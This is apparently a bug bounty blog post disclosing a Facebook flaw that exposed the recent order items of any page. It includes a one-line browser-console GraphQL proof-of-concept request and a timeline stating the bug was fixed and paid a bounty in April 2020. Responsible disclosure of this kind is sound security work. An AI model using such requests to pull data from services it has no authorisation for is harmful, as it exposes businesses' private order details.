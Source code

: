 ```yaml
---
layout: post
title:  "See recent order items of any Facebook page"
date:   2020-08-05 21:44:46 -0800
categories: blog
---
```

When Page admin adds the "Order Placed" label to the user message, Page admin can also include the details of the order such as item name, notes, image, etc. This bug allow any user to view details of these order items of any Facebook page. 
<br />

![](/images/fb_order.png)

**Proof of concept**

Send the following request in the browser console by replacing {Page_ID} with the ID of the target page.
```
new AsyncRequest('/api/graphql/').setData({variables:'{"pageID":"{Page_ID}"}',doc_id:2571623202931955}).send()
```

The response would contain the recent order items of the targeted page.

**Timeline**	
<br />

30 March 2020 - Report Sent\
1 April 2020 - Acknowledged by Facebook\
2 April 2020 - Fixed by Facebook\
3 April 2020 - Confirmation of patch by me\
9 April 2020 - Bounty Awarded by Facebook
